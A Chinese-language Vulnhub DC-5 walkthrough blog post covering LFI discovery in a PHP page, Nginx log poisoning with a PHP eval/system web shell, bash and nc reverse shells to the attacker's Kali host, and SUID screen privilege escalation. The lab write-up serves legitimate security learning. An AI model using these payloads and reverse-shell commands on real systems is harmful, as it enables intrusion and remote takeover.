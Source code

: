 ```yaml
---
title: 'DC-5 : Walkthrough'
date: 2020-05-16T13:48:43+08:00
author: 2hanx
layout: post
categories:
  - Vulnhub
---
```

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机       | IP              |
| --------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali      | `192.168.1.112` |
| DC-5      | `192.168.1.107` |

### 扫描端口和版本信息

`nmap -A 192.168.1.107`

![1.png](https://i.loli.net/2020/05/16/caVTl329ibP4SYu.png) 

### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，Web 应用程序运行的是 **Nginx** 代理服务器，以及它的版本号：**1.6.2**

![2.png](https://i.loli.net/2020/05/16/yofWsV3dRU54qe1.png) 

经过 OSINT，发现该版本的漏洞不多。虽然没有让人兴奋的 RCE，但是却发现一个本地提权漏洞（从[这篇文章](https://vuldb.com/?id.93109)知道是 Nginx 日志文件导致的提权漏洞），我们将它作为候补方案

![13.png](https://i.loli.net/2020/05/16/lJ6YoSZqhnCGjI1.png) 

除了自己收集的信息之外，出题人也给了我们明确的信息：

<pre><code class="line-numbers">You need to look for something a little out of the ordinary (something that changes with a refresh of a page).
</code></pre>

经过使用 BP 的高级功能 **Content Discovery** 发现 `footer.php` 页面内容会改变，想必这就是作者提到的刷新会改变的页面，因此可以确定突破口就在这里

![5.png](https://i.loli.net/2020/05/16/kQKL7xwPlmUqf4r.png) 

经过测试后发现页面返回的内容就几个，猜测是有随机值或者存在固定的数组元素

![3.png](https://i.loli.net/2020/05/16/SZMD2tQ6TB5NA3K.png) 

后来查看 `thankyou.php` 页面源码发现包含 `footer.php`页面。不过进行到这里卡了一段时间，实在没头绪就想到用 [Arjun](https://github.com/s0md3v/Arjun) 工具来试试测试 HTTP 请求参数

![4.png](https://i.loli.net/2020/05/16/W4rqVPCHAR6dXk9.png) 

结果是让人兴奋的，至少这次成功了（之前测试其他的页面啥都没有 ¯&#40;°_o)/¯）。不过一看到参数的名字就立刻想到 **LFI**，因此把它丢到 **Intruder**，暴力读一下文件

> 使用 SecLists 项目的 `Fuzzing\LFI\LFI-Jhaddix.txt` 字典 

![6.png](https://i.loli.net/2020/05/16/bXLuDVjoMOlfF1K.png) 

返回结果有很多，可以使用 BP 的过滤功能过滤掉没有返回内容的响应包

> 没有返回内容的响应包内容长度都是 **835**，因此在过滤框中填入 `Content-Length: 835` 进行过滤，又因为我们需要反向选择，勾选 **Negative search** 选项，这样过滤后的结果就是有返回内容的响应包 

![7.png](https://i.loli.net/2020/05/16/NTfLmP5eVpEryJQ.png) 

当然我们也可以修改 `file` 参数值为 `php://filter/convert.base64-encode/resource=footer.php` 来查看 `footer.php` 文件内容

<pre><code class="language-php line-numbers">&lt;?php    
//Random Gen Test    
$rndmYears = array(
    "Copyright © 2017", "Copyright © 2018", "Copyright © 2019",  "Copyright © 2020"  );    
echo $rndmYears[mt_rand(0, count($rndmYears)-1)];    
?&gt;
</code></pre>

因此这里我们就可以使用之前收集到的信息读取 Nginx 的日志文件

![9.png](https://i.loli.net/2020/05/16/Z3TNuletUKrbBEj.png) 

![8.png](https://i.loli.net/2020/05/16/QkcH1h6Zyig8RUM.png) 

### Getshell

经过测试，我们知道 Nginx 会将请求的内容保存在日志文件，这样我们可以进行 getshell ，因此在 BP 上修改请求字段：`GET /thankyou.php?file=<?php @eval($_POST["sh"]);?> HTTP/1.1` 并提交。

之后使用 [蚁剑](https://github.com/AntSwordProject/antSword) 连接上之后再远程连接 Kali

`bash -c "bash -i >& /dev/tcp/192.168.1.112/6677 0>&1"`

### 提权

后面的步骤一如既往，上传 `LinEnum.sh` 脚本到虚拟机 `/tmp` 目录下执行。注意到 `/bin/screen-4.5.0` 具有 **SUID** 权限

![10.png](https://i.loli.net/2020/05/16/acR4UgBnHoL2u7i.png) 

查找该工具的漏洞

![11.png](https://i.loli.net/2020/05/16/vVWnaTNeUM1G5kX.png) 

结果是好的，我们可以进行本地提权。不过这里我们直接将脚本上传运行会有些问题，既然 shell 脚本自动化执行有点问题，那就根据脚本内容手动一步步执行就可以了

![12.png](https://i.loli.net/2020/05/16/IpZ48KcAVYE69xT.png) 

### 总结

1 . 走投无路时试试测试 HTTP 查询参数，也可以使用 Kali 自带的 wfuzz 工具

2 . Getshell 时，可以试试

`GET /thankyou.php?file=<?php system($_GET['cmd']); ?> HTTP/1.1`

后续访问执行命令再加上 `cmd` 参数即可，比如：

`http://192.168.1.107/thankyou.php?file=/var/log/nginx/error.log&cmd=nc%20192.168.1.112%206677%20-e%20/bin/bash`

3 . BP 过滤选项不仅可以根据选择的内容过滤，也可以根据状态码过滤：`status":"404`